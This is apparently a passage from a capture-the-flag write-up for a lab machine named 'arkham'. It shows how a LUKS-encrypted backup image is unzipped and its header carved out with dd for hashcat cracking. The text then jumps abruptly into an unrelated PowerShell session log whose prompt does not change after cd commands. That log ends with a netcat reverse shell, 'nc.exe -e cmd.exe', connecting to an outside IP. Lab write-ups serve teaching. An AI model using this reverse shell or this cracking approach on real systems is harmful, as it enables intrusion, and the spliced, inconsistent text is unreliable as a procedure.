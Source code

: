 Extracting and checking the content:

```
# 7z e 10.10.10.130-BatShare_appserver.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-2600K CPU @ 3.40GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 4046695 bytes (3952 KiB)

Extracting archive: 10.10.10.130-BatShare_appserver.zip
--
Path = 10.10.10.130-BatShare_appserver.zip
Type = zip
Physical Size = 4046695

Everything is Ok

Files: 2
Size:       13631637
Compressed: 4046695
# ls -l
total 17268
-rw-r--r-- 1 root root  4046695 Mar 16 23:24 10.10.10.130-BatShare_appserver.zip
-rw-r--r-- 1 root root 13631488 Dec 25 01:05 backup.img
-rw-r--r-- 1 root root      149 Dec 25 01:21 IMPORTANT.txt
```

I check the `IMPORTANT.txt` message first and see that it contains a hint that the `backup.img` file is protected.

```
# cat IMPORTANT.txt
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce
```

I then check what kind of file this is and see that it is a LUKS encrypted file:

```
# file backup.img
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```

> The Linux Unified Key Setup (LUKS) is a disk encryption specification created by Clemens Fruhwirth in 2004 and originally intended for Linux.

### Cracking and looking inside LUKS container

I can extract the beginning of the partition containing the header so I can crack it with hashcat after:

```
# dd if=backup.img of=backup_header.dd bs=512 count=5000
5000+0 records in
5000+0 records out
2560000 bytes (2.6 MB, 2.4 MiB) copied, 0.0232298 s, 110 MB/s
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666